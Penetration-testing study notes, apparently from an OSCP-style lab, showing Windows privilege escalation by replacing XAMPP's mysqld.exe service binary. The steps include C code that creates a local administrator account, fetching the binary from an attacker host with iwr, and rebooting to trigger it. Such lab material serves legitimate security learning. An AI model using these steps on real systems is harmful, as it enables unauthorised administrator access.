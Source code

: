 ```PowerShell
```
#### Permissions of _mysqld.exe_
```PowerShell
icacls "C:\xampp\mysql\bin\mysqld.exe"
```
Full Access (F) permission allows us to write to and modify the binary and therefore, replace it
#### Create a C code binary in Kali that will create a user named _dave2_ and add that user to the local Administrators group using the `system` function
```C
#include <stdlib.h>

int main ()
{
	int i;

	i = system ("net user dave2 password123! /add");
	i = system ("net localgroup administrators dave2 /add");

	return 0;
}
```
#### Compile the binary (adduser.c)
```Shell
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
#### Transfer to target host
```PowerShell
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
```
#### Replace mysqld.exe with our malicious binary
```PowerShell
move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
```

```PowerShell
move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```
#### First attempt to restart the service
```PowerShell
net stop mysql
```
#### If permissions don't allow restarting a service, see if it starts up on system reboot
```PowerShell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
```
#### Check reboot privileges
```PowerShell
whoami /priv
```
"Disabled" being displayed means you can reboot the system (just like "Enabled" would)
#### Reboot the machine
```PowerShell
shutdown /r /t 0
```
#### Display members of the local administrators group
```PowerShell
Get-LocalGroupMember administrators
```
#### We can also figure out privesc possibilities using PowerSploit.ps1. Transfer to the machine.
```PowerShell
```